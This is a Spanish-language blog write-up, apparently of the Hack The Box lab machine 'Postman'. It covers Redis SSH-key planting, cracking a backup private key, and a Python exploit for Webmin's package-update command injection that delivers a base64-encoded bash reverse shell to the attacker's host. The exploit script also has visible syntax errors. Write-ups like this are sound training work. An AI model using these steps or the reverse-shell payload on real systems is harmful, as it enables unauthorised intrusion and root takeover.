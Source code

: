 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Postman            |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.160       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Postman/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.160
```

![nmap 1](/assets/images/Postman/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.160 -oG allPorts
```

![nmap2](/assets/images/Postman/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,25,80 10.10.10.160 -oN targeted
```

![nmap3](/assets/images/Postman/nmap3.png)

Vamos ahora a listar informacion del redis, de acuerdo con <a href="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis">hacktrics </a>   

Para intentar entrar por ssh desde redis empezamos por crear nuestras llaves en el directorio ~.ssh/ y con el comando:

```s
ssh-keygen 
```

Ahora para tener en un formato que acepte redis nuestra llave de ssh hacemos un

```s
(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

Luego importamos el archivo a redis con un:

```s
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
```

Ahora vamos a meter las llaves en un directorio comun

```s
redis-cli -h 10.10.10.160
config get dir
config set dir /var/lib/redis/.ssh/

redis-cli -h 10.10.10.160 -x set ssh_key

config set dbfilename "authorized_keys"
```

![redis](/assets/images/Postman/redis.png)

Tenemos ahora acceso como usuario redis, navegando por los directorios podemos encontrar en el directorio /opt una id_rsa de backup que podria ser del usuario Matt. 

Esta llave nos la copiamos a nuestro directorio de contenido y podemos hacer un crackeo de la llave con los comandos siguientes:

```s
#Para meter la llave en un formato para john
ssh2john
john -w:/usr/share/wordlists/rockyou.txt
```

![password cracked](/assets/images/Postman/hash_cracked.png)

Ahora tenemos la contrasena y resulta que es la contrasena de Matt, procedemos a meternos en su perfil con un su Matt; y podremos ver ahora la flag en su directorio.

![Matt](/assets/images/Postman/matt.png)

Lo siguiente para escalar privilegios podria ser empezar por entrar al portal del puerto 10000, como vemos que el servicio ofrecido es webmin y tenemos la version en el dashboard. Podemos buscar exploits en metasploit y construir nuestro propio exploit con python de la forma siguiente:

```py
#!/usr/bin/python3

from pwn import *
import requests, urllib3, pdb, signal, sys

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... \n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

login_url = "https://10.10.10.160:10000/session_login.cgi"
update_url = "https://10.10.10.160:10000/package-updates/update.cgi"

def makeRequest():
    #Para pasar el certificad ssl
    urllib3.disable_warnings()
    s = requests.session()
    s.verify = false

    data_post = {
        'user': 'Matt',
        'pass': 'computer2008'
    }

    headers = {
        'Cookie' : 'redirect=1; testing=1; sid=x'
    }
    r = s.post(login_url, data=data_post, headers=headers)

    post_data = [('u': 'acl/apt'),('u', ' | bash -c "echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80NDQ0IDA+JjE=" | base64 -d | bash "'), ('ok_top', 'Update Selected Packages')]

    headers = {
        'Referer': 'https://10.10.10.160:10000/package-updates/?xnavigation=1'
    }
    r = s.post (update_url, data=post_data, headers=headers)

if __name__ == '__main__':
    makeRequest()

print (r.text)
```

Ahora lo que insertaremos en el script como nuestro payload para hacer una reverse shell es:

```s
echo -n "bash -i >& /dev/tcp/10.10.14.22/4444 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80NDQ0IDA+JjE=" | base64 -d | bash 

#nos ponemos en escucha desde nuestra maquina para la conexion con
rlwrap nc -nlvp 4444
```

Ahora ya tenemos acceso como root y podremos leer la flag.

![root](/assets/images/Postman/root.png)

![powned](/assets/images/Postman/powned.png)